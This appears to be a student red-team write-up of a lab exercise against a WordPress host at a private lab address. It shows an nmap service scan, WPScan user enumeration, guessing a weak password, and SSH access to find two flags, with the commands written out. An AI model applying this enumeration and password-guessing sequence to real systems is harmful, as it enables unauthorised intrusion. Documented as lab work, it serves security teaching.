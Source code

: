 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

Nmap scan results for each machine reveal the below services and OS details:

Command: `$ nmap -sV 192.168.1.110`

Output Screenshot:

![Nmap scan results](https://github.com/Kreyeptic/Final-Project/blob/main/Images/Nmap%20scan.png "Nmap scan results")

This scan identifies the services below as potential points of entry:
- Target 1
 1. Port 22/TCP 	    Open 	SSH
2. Port 80/TCP 	    Open 	HTTP
3. Port 111/TCP 	Open 	rcpbind
4. Port 139/TCP 	Open 	netbios-ssn
5. Port 445/TCP 	Open 	netbios-ssn

The following vulnerabilities were identified on each target:
- Target 1
1. User Enumeration (WordPress site)
2. Weak User Password
3. Unsalted User Password Hash (WordPress database)
4. Misconfiguration of User Privileges/Privilege Escalation

### Exploitation
The Red Team was able to penetrate Michael and retrieve the following confidential data:

**Target Michael**
- **Flag1: b9bbcb33ellb80be759c4e844862482d**
- Exploit Used:
    - WPScan to enumerate users of the Target 1 WordPress site
    - Command: 
        - `$ wpscan --url http://192.168.1.110 --enumerate u`

![WPScan results](/Images/nmap-scan-results.png "WPScan results")

- Targeting user Michael
    - Small manual Brute Force attack to guess/finds Michael’s password
    - User password was weak and obvious
    - Password: michael
- Capturing Flag 1: SSH in as Michael traversing through directories and files.
    - Flag 1 found in var/www/html folder at root in service.html in a HTML comment below the footer.
    - Commands:
        - `ssh michael@192.168.1.110`
        - `pw: michael`
        - `cd ../`
        - `cd ../`
        - `cd var/www/html`
        - `ls -l`
        - `nano service.html`

![Flag 1 location](https://github.com/Kreyeptic/Final-Project/blob/main/Images/Flag1.png "Flag 1")

  - **Flag2: fc3fd58dcdad9ab23faca6e9a3e581c**
- Exploit Used:
    - Same exploit used to gain Flag 1.
    - Capturing Flag 2: While SSH in as user Michael Flag 2 was also found.
        - Once again traversing through directories and files as before Flag 2 was found in /var/www next to the html folder that held Flag 1.
        - Commands:
            - `ssh michael@192.168.1.110` 
            - `pw: michael`
            - `cd ../` 
            - `cd ../`
            - `cd var/www`
            - `ls -l`
            - `cat flag2.txt`

![Flag 2 location](/Images/flag2-location.png "Flag 2 location")

![Flag 2 cat](/Images/flag2-cat.png "Flag 2 cat")
